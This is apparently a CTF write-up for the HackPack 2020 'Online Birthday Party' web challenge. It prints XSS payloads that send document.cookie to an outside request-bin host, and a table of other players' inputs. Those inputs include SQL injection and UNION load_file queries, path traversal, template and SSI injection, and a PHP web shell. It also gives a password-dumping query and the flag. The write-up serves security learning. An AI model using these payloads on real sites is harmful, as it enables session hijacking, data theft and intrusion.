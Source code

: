 ```yaml
---
title: 'HackPack CTF 2020: Online Birthday Party'
date: 2020-05-18
categories: [writeups]
author: None
---
```

## Crowdsourcing a CTF Challenge

> This pandemic hit everybody hard. Especially, those who want to make a
> birthday party. That is why we decided to create a website where you
> can find those who have the same birthdate as yours. Check it out:
> https://online-birthday-party.cha.hackpack.club/

<!--more-->

I noticed straight away that the username wasn't sanitised, so I figured
this was an XSS challenge. I set up a request bin in preparation for
snooping some cookies, and then tried to register with the neat
cross-origin image exfiltration technique

``` {.html}
<script>document.write('<img src="https://enii5hhtwuak.x.pipedream.net/?cookie='+document.cookie+'">')</script>
```

but the website complained it was too long so I had to settle instead
for the much more brutish relocation technique:

``` {.html}
<script>document.location='https://enii5hhtwuak.x.pipedream.net/?cookie='+document.cookie</script>
```

Then I waited, and waited some more. After a long while, and having more
or less given up on the approach, I finally got a hit. I copied the
cookie and reloaded the page:

> Hello, blacknote10!
>
> Your birthday: 0' OR 1=1 \#--

Hello blacknote, indeed. This was not the automatic script I had
expected, but another contestant. It now dawned on me that this
challenge was not meant to be a JavaScript injection in the username,
but a SQL injection in the birthday.

blacknote had written an injection which let them list every account
with their birthdays. Since my account was on the list, they had, for
them I expect rather annoyingly, been redirected to my request bin.

I could see blacknote evolve their injection in real time, but better
yet I could copy their first injection to see everyones accounts. Here
are some examples in no particular order:

| Username                                                                                             | Birthday                                                                                          | Comment                                            |
|:-----------------------------------------------------------------------------------------------------|:--------------------------------------------------------------------------------------------------|:--------------------------------------------------:|
| `admin`                                                                                              | `1/1/2001`                                                                                        | The admin account. Note the different date format. |
| `x-1587597992`                                                                                       | `2020-04-1`                                                                                       |                                                    |
| `herve`                                                                                              | `2020-04-24`                                                                                      | Some normal looking stuff.                         |
| `abc`                                                                                                | `214748-03-31`                                                                                    | A strange year.                                    |
| `test1`                                                                                              | `'or'1'='1'--`                                                                                    |                                                    |
| `asdf`                                                                                               | `' UNION SELECT NULL`                                                                             |                                                    |
| `'`                                                                                                  | `' ON DUPLICATE KEY UPDATE password="asdf" --`                                                    |                                                    |
| `www`                                                                                                | `2002-01-01' UNION SELECT * FROM ` `information_schema.columns WHERE table_name = '%`             |                                                    |
| `k3`                                                                                                 | `2020-04-06 order by 10-- -`                                                                      | Heaps of SQL injections.                           |
| `{{config}}`                                                                                         | `2000-01-01`                                                                                      |                                                    |
| `{{ 7*7 }}`                                                                                          | `1994-03-04`                                                                                      | Template injections.                               |
| `whaaat`                                                                                             | `1' OR password like 'flag{%`                                                                     | Interesting!                                       |
| `c:/Windows/system.ini`                                                                              | `2020-04-23`                                                                                      |                                                    |
| `..\..\..\..\..\..\..\..\..` `\..\..\..\..\..\..\..\Windows\system.ini`                              | `2020-04-23`                                                                                      |                                                    |
| `/etc/passwd`                                                                                        | `2020-04-23`                                                                                      | Direct file traversals.                            |
| `p4`                                                                                                 | `' union SELECT load_file('/var/lib/mysql-files/flag.txt'),1;-- -`                                |                                                    |
| `p6`                                                                                                 | `' union SELECT load_file(0x272f7661722f6c69622f6d79` `73716c2d66696c65732f666c61672e74787427),1;--` | File traversal through SQL.                        |
| `flag`                                                                                               | `2020-04-23`                                                                                      | Don't think that's going to work.                  |
| `thishouldnotexistandhopefullyitwillnot`                                                             | `2020-04-23`                                                                                      | Alas, it does.                                     |
| `http://www.google.com:80/search?q=OWASP%20ZAP`                                                      | `2020-04-23`                                                                                      | Not sure what's going on here.                     |
| `<!--#EXEC cmd="ls /"-->`                                                                            | `2020-04-23`                                                                                      | Some other form of injection.                      |
| `<b>hi</b>`                                                                                          | `0000-01-01`                                                                                      |                                                    |
| `ab`                                                                                                 | `<u>aa</u>`                                                                                       | HTML injections.                                   |
| `ab1`                                                                                                | `<script>alert(1)</script>`                                                                       |                                                    |
| `<script>alert('yo');</script>`                                                                      | `2020-04-27`                                                                                      | Other peoples JavaScript injections.               |
| `admin`                                                                                              | `2020-04-08`                                                                                      | Another admin account.                             |
| `herve2`                                                                                             | `\\a\l\e\r\t\(\'\X\S\S\'\)\;\`                                                                    |                                                    |
| `herve3`                                                                                             | `'\\U\N\I\O\N\A\L\L\S\E\L\E\C\T\*\F\R\O\M\u\s\e\r\s\'`                                            | Lots of leaning sticks.                            |
| `jHcY') AND 8400=7228 AND ('QIlv'='QIlv`                                                             | `hpXo`                                                                                            |                                                    |
| `jHcY") AS jHgo WHERE 5594=5594 AND 5122=7506-- YpXl`                                                | `hpXo`                                                                                            | A bunch of stuff like this.                        |
| `<script>alert(10)</script>`                                                                         | `1337-10-10`                                                                                      | My first JavaScript injection.                     |
|`<script>document.location='` `https://enii5hhtwuak.x.pipedream.net/?cookie='+document.cookie</script>`| `1337-11-10`                                                                                      | My second JavaScript injeciton.                    |
| `<?php     if(isset($_GET['cmd']))     {         system($_GET['cmd']);     } ?>`                     | `2020-03-19`                                                                                      | PHP injection.                                     |
| `ab2`                                                                                                | `whoami`                                                                                          | Shell injection.                                   |


Looking through these it was not too hard to figure out how to also dump the
passwords – something like:

```
' UNION SELECT username, password FORM users WHERE '' = '
```

So now, if I wanted to try something out, I didn't have to create an new
account, but could simply log into the existing one instead. As an added
bonus, the flag was found as the password for the admin account:

```
flag{c0mpl1cat3d_2nd_0rd3r_sql}
```
